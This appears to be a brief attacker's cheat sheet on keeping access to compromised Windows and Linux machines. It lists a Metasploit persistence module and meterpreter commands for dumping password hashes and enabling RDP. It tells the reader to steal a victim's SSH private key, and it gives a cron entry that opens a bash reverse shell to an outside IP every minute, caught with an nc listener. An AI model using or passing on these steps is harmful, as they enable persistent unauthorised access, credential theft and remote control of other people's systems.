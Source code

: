 **windows**

exploit/windows/local/persistence_service (This Module will generate and upload an executable to a remote host, next will make it a persistent service. It will create a new service which will start the payload whenever the service is running. Admin or system privilege is required.)

hashdump ( meterpreter command to dump hashes to use with legitimate authentication attempts)

getgui is a nice easy meterpreter command to enable RDP


**linux**

persistence via SSH. Most linux servers are configured for remote administration through SSH, etc

You will want to:

- steal ~/.ssh/id_rsa
- chmod 400 id_rsa
- ssh -i id_rsa user@victim.ip

cat /etc/cron (views all cronjobs)

To manually establish persistence through cron, do the following:

 - echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.165.88.2/1337 0>&1'" > cron
 - crontab -i cron
 - crontab -l

then on your attacker machine:

 - nc -nvlp 1337
